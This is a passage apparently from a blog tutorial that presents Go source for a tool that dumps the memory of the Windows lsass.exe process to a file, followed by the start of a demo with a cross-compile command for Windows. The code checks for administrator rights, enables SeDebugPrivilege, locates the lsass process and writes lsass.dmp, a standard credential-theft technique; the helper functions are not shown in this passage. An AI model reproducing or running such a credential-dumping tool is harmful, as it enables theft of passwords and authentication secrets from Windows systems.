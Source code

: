 ```go
  `)
}

func main(){
  Banner()

  fmt.Println("[*] Checking permissions...")
  check, err := CheckAdmin()
  if err != nil {
    log.Fatal(err)
  }

  if check == false {
    log.Fatal(errors.New("An error has ocurred, please run as admin!"))
  }

  fmt.Println("[+] Administrator privileges found!")

  fmt.Println("Enabling SeDebugPrivilege...")
  err = EnableSeDebugPrivilege()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[*] Searching lsass.exe process...")
  pid, err := FindLsassPid()
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[+] PID found:", pid)

  fmt.Println("[*] Dumping lsass.exe process...")
  err = DumpLsass(pid, "lsass.dmp")
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[+] Process finished!")
}
```

If you have any doubt or you wanna ask me anything, contact me via Instagram or Twitter

Let’s go testing it!

## Demo

First of all we compile our code:

```bash
GOARCH=amd64 GOOS=windows go build main.go
```
